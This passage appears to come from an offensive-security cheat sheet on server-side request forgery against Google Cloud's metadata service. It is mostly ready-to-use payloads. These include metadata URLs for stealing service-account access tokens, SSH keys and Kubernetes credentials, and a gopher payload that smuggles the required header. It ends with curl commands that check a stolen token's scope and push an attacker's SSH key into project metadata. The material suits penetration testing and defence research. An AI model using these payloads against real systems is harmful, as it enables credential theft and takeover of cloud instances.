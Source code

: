 ```powershell
http://metadata.google.internal/computeMetadata/v1/instance/disks/?recursive=true
```

Beta does NOT require a header atm (thanks Mathias Karlsson @avlidienbrunn)

```powershell
http://metadata.google.internal/computeMetadata/v1beta1/
http://metadata.google.internal/computeMetadata/v1beta1/?recursive=true
```

Required headers can be set using a gopher SSRF with the following technique

```powershell
gopher://metadata.google.internal:80/xGET%20/computeMetadata/v1/instance/attributes/ssh-keys%20HTTP%2f%31%2e%31%0AHost:%20metadata.google.internal%0AAccept:%20%2a%2f%2a%0aMetadata-Flavor:%20Google%0d%0a
```

Interesting files to pull out:

* SSH Public Key : `http://metadata.google.internal/computeMetadata/v1beta1/project/attributes/ssh-keys?alt=json`
* Get Access Token : `http://metadata.google.internal/computeMetadata/v1beta1/instance/service-accounts/default/token`
* Kubernetes Key : `http://metadata.google.internal/computeMetadata/v1beta1/instance/attributes/kube-env?alt=json`

### Add an SSH key

Extract the token

```powershell
http://metadata.google.internal/computeMetadata/v1beta1/instance/service-accounts/default/token?alt=json
```

Check the scope of the token

```powershell
$ curl https://www.googleapis.com/oauth2/v1/tokeninfo?access_token=ya29.XXXXXKuXXXXXXXkGT0rJSA  

{ 
        "issued_to": "101302079XXXXX", 
        "audience": "10130207XXXXX", 
        "scope": "https://www.googleapis.com/auth/compute https://www.googleapis.com/auth/logging.write https://www.googleapis.com/auth/devstorage.read_write https://www.googleapis.com/auth/monitoring", 
        "expires_in": 2443, 
        "access_type": "offline" 
}
```

Now push the SSH key.

```powershell
curl -X POST "https://www.googleapis.com/compute/v1/projects/1042377752888/setCommonInstanceMetadata" 
-H "Authorization: Bearer ya29.c.EmKeBq9XI09_1HK1XXXXXXXXT0rJSA" 
-H "Content-Type: application/json" 
--data '{"items": [{"key": "sshkeyname", "value": "sshkeyvalue"}]}'
```
